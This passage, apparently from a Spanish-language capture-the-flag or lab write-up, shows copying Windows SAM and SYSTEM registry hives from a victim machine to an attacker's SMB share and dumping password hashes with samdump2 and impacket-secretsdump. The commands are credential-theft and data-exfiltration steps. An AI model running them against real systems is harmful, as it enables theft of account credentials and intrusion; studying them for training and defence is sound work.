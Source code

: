 - Tercero, vamos a conectarnos a nuestro servicio compartido de `smb` de nuestra maquina atacante

```java
C:\Users\Administrator\Desktop>net use z: \\10.9.115.196\smbfolder
```

- Cuarto, hacemos una copia de la maquina victima a nuestra maquina atacante

![20231031175636.png](20231031175636.png)

#### dump

- Los tendremos en nuestra maquina atacante y para dumpear tenemos de dos formas.

- Primera

```java
❯ samdump2 system sam
```

![20231031175808.png](20231031175808.png)

- Segunda

```
❯ impacket-secretsdump -sam sam -system system LOCAL
```

![20231031175949.png](20231031175949.png)


